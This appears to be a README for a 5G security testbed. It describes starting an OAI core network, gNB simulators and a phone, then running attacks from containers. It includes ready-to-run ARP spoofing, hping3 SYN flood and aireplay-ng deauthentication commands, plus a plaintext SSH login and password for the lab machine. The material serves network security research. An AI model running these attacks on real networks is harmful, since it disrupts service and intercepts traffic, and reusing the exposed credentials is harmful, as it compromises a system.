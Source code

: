 ## Common Steps for All the Attacks

### 1. Log into VM in the Testbed with OAI Installation
```bash
ssh kryptowire@10.80.103.50
Password: krypto@123
```

### 2. OAI 5G Core
- **Git Repo Used:** [OAI 5G Core GitLab Repo](https://gitlab.eurecom.fr/oai/cn5g/oai-cn5g-fed.git)
- **Docs Link for Instructions:** [OAI 5G Core Docs](https://gitlab.eurecom.fr/oai/cn5g/oai-cn5g-fed/-/tree/master/docs?ref_type=heads)

#### Commands:
```bash
cd /home/kryptowire/oai-core/oai-cn5g-fed/docker-compose
python3 ./core-network.py --type start-basic --scenario 1
```
- Wait for the core network docker containers to be up and running: Use `docker ps` command to check the status.

### 3. Launch gNBsims
#### Commands:
```bash
cd /home/kryptowire/oai-core/oai-cn5g-fed/docker-compose
docker-compose -f docker-compose-gnbsim.yaml up -d gnbsim
```

### 4. Launch OAI gNB with COTSUE
- **GitHub Repo Used:** [OAI gNB GitLab Repo](https://gitlab.eurecom.fr/oai/openairinterface5g.git)

#### Commands:
```bash
cd ~/openairinterface5g/cmake_targets/ran_build/build
sudo ./nr-softmodem -O ../../../targets/PROJECTS/GENERIC-NR-5GC/CONF/gnb.sa.band77.fr1.273PRB.2x2.usrpn300.conf --sa --usrp-tx-thread-config 1 -E --continuous-tx
```
- Once gNB connects to core network, connect COTSUE to the gNB.

### 5. Experimentation Setup
- The setup contains OAI core connected with 2 gNBsims and COTSUE.

## Attacks Integration
### Common Step for Launching Attacks
- Log into gNBsim container
- Once inside the container launch attack command
```bash
docker ps
docker exec -it <container-id> /bin/bash
```

### IP/ARP Spoofing
#### Command:
```bash
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.18
```
- Run this command from gNBsim attacking COTSUE. When gNBsim and COTSUE connect to the core, they will be assigned IPs in the same subnet.

### SYN Flooding
#### Command:
```bash
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.70.156
```
- Run this command from the gNBsim container and flood with SYN packets to COTSUE and 2 gNBsims.

## SYN Flooding from OAI Core AMF to UPF
#### Command:
```bash
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.70.156
```
Run this command from the OAI core AMF container and flood with SYN packets to UPF.

Additional Step: Log into OAI Core AMF Container

- Run docker ps to get the container ID.
Log into the AMF container:
```bash
docker exec -it <container-id> /bin/bash
```
- Once inside the container, launch the attack command.


### Deauthentication
#### Command:
```bash
aireplay-ng -0 0 -a 10:DA:43:73:2A:3C -c 30:23:03:5E:2B:2B wlan0
```
- For this attack, tether COTSUE connection via router and connect 2 UEs to the WiFi. Then launch the attack from one UE to the other UE.
